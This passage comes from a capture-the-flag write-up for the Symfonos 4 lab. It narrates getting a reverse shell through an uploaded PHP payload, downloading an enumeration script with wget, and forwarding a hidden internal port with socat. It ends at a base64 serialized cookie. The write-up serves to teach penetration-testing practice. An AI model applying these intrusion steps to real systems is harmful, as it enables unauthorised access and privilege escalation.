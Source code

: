 <img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/13.png" width="800">

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/14.png" width="800">

Now, we can use this to get a reverse shell on our machine. Netcat does not seem to work on the target machine due to some reason, so now, we will upload a php reverse shell to the target machine. We will use python web server to download the php reverse on the target machine `/tmp` directory.

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/15.png" width="800">

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/16.png" width="800">

Now, we will setup a netcat listener on our machine and execute our payload on target machine

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/17.png" width="800">

We have successfully gotten a reverse shell on the target machine

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/18.png" width="800">

Now, we will stabilize our shell using python. 

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/19.png" width="800">

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/20.png" width="800">

### Privilege Escalation
First we will use this one liner to download **linux smart enumeration** script on `/tmp` directory. 

```
wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh
```

Running linux smart enumeration script on our target machine tells us that there is **hidden web server** and mysql server running on target machine which can only be accessed from the inside     

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/21.png" width="800">

We will use **socat** to forward port 8080 on port 4444 since it was already installed on the target machine

```
socat TCP-LISTEN:4444,fork,reuseaddr tcp:127.0.0.1:8080 &
```

Now, we can successfully access this hidden web server on port 4444

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/22.png" width="800">

Main page doesn't tell us anything important, but if we see the cookie in the network tab of our browser, we can see some interesting details.   

```
Cookie: PHPSESSID=r14sp8fvvk614cptufe8abmv8g; username=eyJweS9vYmplY3QiOiAiYXBwLlVzZXIiLCAidXNlcm5hbWUiOiAiUG9zZWlkb24ifQ==
```
